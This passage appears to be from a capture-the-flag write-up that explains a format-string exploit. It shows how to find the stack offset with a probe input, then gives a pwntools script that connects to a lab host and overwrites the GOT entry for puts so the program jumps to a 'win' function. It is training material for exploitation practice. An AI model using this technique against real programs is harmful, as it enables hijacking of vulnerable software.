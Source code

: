 Constructing a format string to do this is complicated - not impossible, not even all that hard, but complex and time consuming. Which is why its great that pwntools can do it with one line once you have worked out where the return address is relative to the exploit (use `ABCD|%1$p` and increment that number until the result prints out `44434241`, here its 6):

```python
from pwn import *

p = remote('10.10.88.29',9009)
# p = process()

elf = context.binary = ELF('./notspecified')

p.clean()

payload = fmtstr_payload(6, {elf.got['puts'] : elf.sym['win']})
p.sendline(payload)

p.clean()
p.interactive()
```
